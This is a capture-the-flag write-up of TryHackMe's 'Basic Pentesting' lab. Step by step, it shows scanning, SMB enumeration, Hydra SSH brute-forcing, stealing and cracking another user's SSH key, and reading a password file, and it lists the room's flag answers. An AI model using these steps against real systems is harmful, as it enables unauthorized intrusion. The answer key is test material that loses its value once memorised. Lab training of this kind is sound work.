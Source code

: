 ## Basic Pentesting - TryHackMe Writeup

[Room Link](https://tryhackme.com/room/basicpentestingjt)

**IP: 10.10.209.113**

---

## 📌 General Information

**Room Difficulty**: Easy  <br>

**Room Type**: Penetration Testing Fundamentals <br>

**Tools Used**: Nmap, Hydra, Gobuster, enum4linux, John The Ripper

**Author**: <br>

mauzware aka mauzinho <br>
[TryHackMe Profile](https://tryhackme.com/p/mauzinho) <br>
[GitHub Profile](https://github.com/mauzware)

---

## 🔍 Enumeration

- Starting with Nmap scan as always.
  ```
  nmap -A -p- 10.10.209.113
  
  open ports:
  22 -> OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
  80 -> Apache httpd 2.4.18 ((Ubuntu))
  139 -> Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
  445 -> Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
  8009 -> Apache Jserv (Protocol v1.3)
  8080 -> Apache Tomcat 9.0.7
  
  Host script results:
  | smb2-time: 
  |   date: 2025-04-23T18:25:37
  |_  start_date: N/A
  | smb-os-discovery: 
  |   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
  |   Computer name: basic2
  |   NetBIOS computer name: BASIC2\x00
  |   Domain name: \x00
  |   FQDN: basic2
  |_  System time: 2025-04-23T14:25:37-04:00
  | smb-security-mode: 
  |   account_used: guest
  |   authentication_level: user
  |   challenge_response: supported
  |_  message_signing: disabled (dangerous, but default)
  | smb2-security-mode: 
  |   3:1:1: 
  |_    Message signing enabled but not required
  |_clock-skew: mean: 1h20m01s, deviation: 2h18m34s, median: 0s
  |_nbstat: NetBIOS name: BASIC2, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
  ```
  
- Now looking for hiddent assets with Gobuster.
  ```
  gobuster dir -u http://10.10.209.113 -w=/usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
  /development
  ```
  
- When I visited `http://10.10.209.113/development` I found two files: dev.txt and j.txt. Let's check them real quick.
  ```
  dev.txt 

  2018-04-23: I've been messing with that struts stuff, and it's pretty cool! I think it might be neat
  to host that on this server too. Haven't made any real web apps yet, but I have tried that example
  you get to show off how it works (and it's the REST version of the example!). Oh, and right now I'm 
  using version 2.5.12, because other versions were giving me trouble. -K
  
  2018-04-22: SMB has been configured. -K
  
  2018-04-21: I got Apache set up. Will put in our content later. -J

  j.txt 

  For J:
  
  I've been auditing the contents of /etc/shadow to make sure we don't have any weak credentials,
  and I was able to crack your hash really easily. You know our password policy, so please follow
  it? Change that password ASAP.
  
  -K
  ```

- Since I work with `samba` let's enumerate that as well.
  ```
  enum4linux -a 10.10.209.113
  Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none
  [+] Attempting to map shares on 10.10.209.113
  
  //10.10.209.113/Anonymous       Mapping: OK Listing: OK Writing: N/A
  ```

---

## 🧍 User Privilege Escalation

- Found share named `Anonymous` with `enum4linux`, connect to that share with `smbclient`.
  ```
  smbclient //10.10.209.113/Anonymous
  ```
  
- I'm in legoooo! Looking for more info, found `staff.txt`, downloaded it and checked it.
  ```
  get staff.txt
  cat staff.txt 
  ```
  
- Perfect, I found users Jan and Kay, so they added notes on development page as J. and K.

- Now moving to brute forcing since I already found Jan as valid username.
  ```
  hydra -l jan -P /rockyou.txt -t 16 -I 10.10.209.113 ssh
  ``` 

- Perfect, now I have Jan's password which is `armando`. The last thing I have to do is to find Kay's password.

---

## 👑 Root Privilege Escalation

- Now I connected to target machine with SSH as Jan and then tried to get Kay's password. Kay's password is in the file `pass.bak` which I couldn't check due to permission control.
  ```
  ssh jan@10.10.209.113
  armando

  cd home/kay
  ls -al
  
  cd .ssh
  
  ls -al
  id_rsa
  id_rsa.pub
  ```
  
- Found `id_rsa` which is the key for last flag. Download it, convert it to hash and crack the hash, change its permission and connect again with it as user Kay.
  ```
  ssh2john id_rsa > kay_id_rsa.hash
  
  john --wordlist=/rockyou.txt kay_id_rsa.hash
  beeswax (id_rsa)
  
  chmod 600 id_rsa
  
  ssh -i id_rsa kay@10.10.209.113
  passphrase: beeswax
  ```
  
- Awesome! I'm in as Kay, let's check the `pass.bak` file for the last flag.
  ```
  cat pass.bak
  heresareallystrongpasswordthatfollowsthepasswordpolicy$$
  ```

---

## 🏁 Flags

- **What is the name of the hidden directory on the web server(enter name without /)?**: `development`
- **What is the username?**: `jan`
- **What is the password?**: `armando`
- **What service do you use to access the server(answer in abbreviation in all caps)?**: `SSH`
- **What is the name of the other user you found(all lower case)?:** `kay`
- **What is the final password you obtain?**: `heresareallystrongpasswordthatfollowsthepasswordpolicy$$`

---

## 💬 Notes & Reflections

- What was challenging in this room for me?
  `Nothing, just sharpening my skills.`

- What did I learn?
  `Nothing, just sharpening my skills.`

- I would recommend this room or any type of CTF challenge to every Cyber Security enthusiast since it will sharpen your skills better than any book/tutorial/course or walkthrough rooms on many different platforms!

- Thank you for reading! Enjoy, Have Fun and Happy Hacking! 🤟

---
